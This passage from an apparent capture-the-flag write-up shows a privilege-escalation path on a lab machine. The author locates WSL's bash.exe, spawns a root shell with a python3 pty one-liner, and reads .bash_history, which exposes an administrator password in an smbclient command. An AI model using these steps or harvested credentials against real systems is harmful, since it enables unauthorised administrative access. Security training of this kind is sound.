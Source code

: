 ```
C:\Users\tyler>cd C:\System32\bash.exe
cd C:\System32\bash.exe
The system cannot find the path specified.
```

Next, we will try to locate bash.exe executable and we are able to find the location for bash.exe

```
C:\Users\tyler>where /R c:\ bash.exe
where /R c:\ bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Next, we will execute bash.exe executable using the file path that we have found previously, and we will have to use python3 to obtain an interactive shell.

```
C:\Users\tyler\Desktop>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@SECNOTES:~# 
```

Afterwhich, we notice that the .bash_history file is not empty and contains the smbclient command which uses the adminstrator's credentials to mount to the c$ drive.

```
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
```
